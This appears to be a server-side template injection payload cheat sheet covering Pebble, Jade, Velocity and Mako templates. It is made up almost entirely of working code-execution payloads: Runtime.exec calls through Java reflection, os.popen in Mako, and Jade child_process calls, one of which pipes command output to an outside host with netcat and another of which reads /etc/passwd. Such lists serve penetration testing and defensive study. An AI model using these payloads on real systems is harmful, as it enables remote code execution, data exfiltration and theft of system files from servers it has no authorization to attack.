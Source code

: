### Pebble - Basic injection

    {{ someString.toUPPERCASE() }}

### Pebble - Code execution

- **Old version of Pebble ( \< version 3.0.9):** `{{ variable.getClass().forName('java.lang.Runtime').getRuntime().exec('ls -la') }}`

- **New version of Pebble :**

```
    {% set cmd = 'id' %}
    {% set bytes = (1).TYPE
         .forName('java.lang.Runtime')
         .methods[6]
         .invoke(null,null)
         .exec(cmd)
         .inputStream
         .readAllBytes() %}
    {{ (1).TYPE
         .forName('java.lang.String')
         .constructors[0]
         .newInstance(([bytes]).toArray()) }}
  ```````

[](#jade--codepen)

## Jade / Codepen

    - var x = root.process
    - x = x.mainModule.require
    - x = x('child_process')
    = x.exec('id | nc attacker.net 80')

    #{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}

## Velocity

    #set($str=$class.inspect("java.lang.String").type)
    #set($chr=$class.inspect("java.lang.Character").type)
    #set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
    $ex.waitFor()
    #set($out=$ex.getInputStream())
    #foreach($i in [1..$out.available()])
    $str.valueOf($chr.toChars($out.read()))
    #end

## Mako

    <%
    import os
    x=os.popen('id').read()
    %>
    ${x}
